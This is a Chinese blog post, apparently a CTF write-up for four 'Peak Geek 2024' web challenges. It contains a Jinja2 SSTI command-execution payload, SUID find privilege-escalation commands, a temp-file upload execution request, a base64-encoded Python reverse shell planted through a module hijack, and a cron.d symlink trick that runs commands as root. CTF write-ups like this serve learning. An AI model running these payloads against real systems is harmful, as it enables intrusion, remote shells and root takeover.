



+++
title = "巅峰极客2024"
slug = "peak-geek-2024"
description = ""
date = "2024-08-17T17:40:28"
lastmod = "2024-08-17T17:40:28"
image = ""
license = ""
categories = ["赛题"]
tags = ["flask", "php"]
+++

# 0x01 前言

前两天看了巅峰赛，自己也还行，不像之前一样爆零了至少，记录一下

# 0x02 题目

## EncirclingGame

玩游戏就可以了，别点太快了围起来就可以了

## GoldenHornKing

一个SSTI漏洞但是不同往常，尝试了很久

```python 
import os

import jinja2
import functools
import uvicorn
from fastapi import FastAPI
from fastapi.templating import Jinja2Templates
from anyio import fail_after, sleep
# jinja2==3.1.2
# uvicorn==0.30.5
# fastapi==0.112.0

def timeout_after(timeout: int = 1):
    def decorator(func):
        @functools.wraps(func)
        async def wrapper(*args, **kwargs):
            with fail_after(timeout):
                return await func(*args, **kwargs)
        return wrapper

    return decorator
    
app = FastAPI()
access = False

_base_path = os.path.dirname(os.path.abspath(__file__))
t = Jinja2Templates(directory=_base_path)

@app.get("/")
@timeout_after(1)
async def index():
    return open(__file__, 'r').read()

@app.get("/calc")
@timeout_after(1)
async def ssti(calc_req: str ):
    global access
    if (any(char.isdigit() for char in calc_req)) or ("%" in calc_req) or not calc_req.isascii() or access:
        return "bad char"
    else:
        jinja2.Environment(loader=jinja2.BaseLoader()).from_string(f"{{{{ {calc_req} }}}}").render({"app": app})
        access = True
    return "fight"

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)
```

看了一下代码发现只能打一次，打完就得刷机

但是过滤的并不多

首先我们有代码了，看过滤，

```python
access = False

if (any(char.isdigit() for char in calc_req)) or ("%" in calc_req) or not calc_req.isascii() or access:
        return "bad char"
    else:
        jinja2.Environment(loader=jinja2.BaseLoader()).from_string(f"{{{{ {calc_req} }}}}").render({"app": app})
        access = True
    return "fight"
```

那么打通一次`access`直接覆盖为`true`,那么就无法达到渲染效果了就得刷机

禁用了非`ascii`字符,`%`,还有数字，那么用`chr(数字)`来执行等姿势就不行了，但是他一个关键字什么的都没过滤，我们直接调用`builtins`就行,那么现在我们没有了数字就用下面的payload来测试什么时候生效

```
calc?calc_req={{{{x.__init__}}}}
Internal Server Error

calc?calc_req={{{x.__init__}}}
Internal Server Error

calc?calc_req={{x.__init__}}
Internal Server Error

calc?calc_req={x.__init__}
Internal Server Error

/calc?calc_req=x.__init__
"fight"
```

但是发现也面没有任何走动，那么我们直接构造完整payload试试

```
/calc?calc_req=x.__init__.__globals__.__builtins__['__import__']('os').popen('ls /').read()
```

没有回显

此时估计页面回显只有`python`文件,但是又不知道啥名字，使用通配符覆盖文件

```
/calc?calc_req=x.__init__.__globals__.__builtins__['__import__']('os').popen('cp /etc/passwd *py').read()
```





查看发现成功执行命令

```
/calc?calc_req=x.__init__.__globals__.__builtins__['__import__']('os').popen('cp /f* *py').read()
```

得到flag



## admin_Test(浮现思路)

我以为是sql注入，fuzz之后又在哪里尝试时间盲注结果，我方向都错了

首先弱密码进入(也可以直接进`/admin.html`)

```
username:admin

password:qwe123!@#
```

然后上传恶意文件执行命令发现用户是`ctf`进行`suid`提权

但是要执行命令还要通过`cmd`,先`fuzz`一下,只有

```
空格
.
*
/
t
```

使用临时文件缓存进行命令执行

这个姿势之前在`ctfshow`有了解过`web56`

> 在linux shell中，`.`可以用当前的shell执行一个文件中的命令，比如`.file`就是执行file文件中的命令。并且是不需要file有x权限
>
> 上传文件之后,php会生成临时文件在/tmp/phpXXXXXX,其中XXXXXX为六个随机的大小写字母

然后成功之后还需要提权，这里是`suid`提权

查找文件

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

查看是否有`suid`权限

```
ls -al filename
```

```
find filename -exec /bin/sh -p \; -quit
进入交互式shell

find 具有suid权限的filename -exec whoami \; -quit
执行命令
```

那么这里就直接用find提权就行了,借用大头师傅的包

```
POST /upload.php HTTP/1.1
Host: eci-2zegua8pognq2bylzh7v.cloudeci1.ichunqiu.com
Content-Length: 310
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryExqFofGztZHH253r
Connection: close

------WebKitFormBoundaryExqFofGztZHH253r
Content-Disposition: form-data; name="file"; filename="1.test"
Content-Type: admin/admin

find . -exec cat /flag \; -quit
------WebKitFormBoundaryExqFofGztZHH253r
Content-Disposition: form-data; name="cmd"

. /t*/*
------WebKitFormBoundaryExqFofGztZHH253r--
```

## php_online(浮现思路)

```python
from flask import Flask, request, session, redirect, url_for, render_template
import os
import secrets


app = Flask(__name__)
app.secret_key = secrets.token_hex(16)
working_id = []


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        id = request.form['id']
        if not id.isalnum() or len(id) != 8:
            return '无效的ID'
        session['id'] = id
        if not os.path.exists(f'/sandbox/{id}'):
            os.popen(f'mkdir /sandbox/{id} && chown www-data /sandbox/{id} && chmod a+w /sandbox/{id}').read()
        return redirect(url_for('sandbox'))
    return render_template('submit_id.html')


@app.route('/sandbox', methods=['GET', 'POST'])
def sandbox():
    if request.method == 'GET':
        if 'id' not in session:
            return redirect(url_for('index'))
        else:
            return render_template('submit_code.html')
    if request.method == 'POST':
        if 'id' not in session:
            return 'no id'
        user_id = session['id']
        if user_id in working_id:
            return 'task is still running'
        else:
            working_id.append(user_id)
            code = request.form.get('code')
            os.popen(f'cd /sandbox/{user_id} && rm *').read()
            os.popen(f'sudo -u www-data cp /app/init.py /sandbox/{user_id}/init.py && cd /sandbox/{user_id} && sudo -u www-data python3 init.py').read()
            os.popen(f'rm -rf /sandbox/{user_id}/phpcode').read()
            
            php_file = open(f'/sandbox/{user_id}/phpcode', 'w')
            php_file.write(code)
            php_file.close()

            result = os.popen(f'cd /sandbox/{user_id} && sudo -u nobody php phpcode').read()
            os.popen(f'cd /sandbox/{user_id} && rm *').read()
            working_id.remove(user_id)

            return result


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=80)

```

代码总共分为两部分,一个是`index`一个是`sandbox`,

```
index:
利用传入的id，注册账号进入沙盒(我思路都错了一位是session伪造，还是没有好好看代码)
```

```
sandbox:
sudo -u nobody 基本没有什么权限
复制init.py到沙盒
并且有个init.py需要读
```

先创建两个用户一个`AAAAAAAA`用户，一个`BBBBBBBB`用户

`init.py`源码

```python
import logging
logger.info("aaa")
```

这里有模块加载原理也就是

```
imort xxx时候，如果xxx是文件夹，就会自动执行里面的__init__.py
```

可以`A`创建一个`logging/__init__.py`劫持(开始代码执行)

```python
import logging

logger.info('Code execution start')
```

然后在`A`的沙盒中执行命令弹shell

```
<?php system("mkdir -p /sandbox/BBBBBBBB/logging");system("echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEuMS4xLjEiLDI5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIik= | base64 -d > /sandbox/BBBBBBBB/logging/__init__.py");?>
```

但是没有触发，由于是劫持了的，此时再访问`B`，随便执行什么，然后就会执行init.py,也就是我们的弹`shell`代码

监听到之后

```
ps -ef
发现
/usr/sbin/cron
```

再看配置文件

```
/etc/cron.d和/var/spool/cron
```

发现`/etc/cron.d`是能操作的

这里软连接把定时任务转移到沙箱中

```
ln -s /etc/cron.d/ /sandbox/FFFFFFFF
```

再登录到F中执行定时命令

```
* * * * * root cat /flag>/tmp/111

#
#
#<?php while(1){echo 1;};?>
```

其中`* * * * *`表示每分钟执行一次,while死循环是为了让`phpcode`一直存在于`/etc/cron.d/phpcode`中也就是防止这句

```
os.popen(f'cd /sandbox/{user_id} && rm *').read()
```

```shell
在本来弹到的shell里面等一分钟
cat /tmp/111
```

# 0x03 小结

后面这两个题，思路都错了，肯定会卡住，而且我如果来打的话，肯定是打不通的，很多不会的知识点,还是多学学，不对的地方希望各位师傅斧正

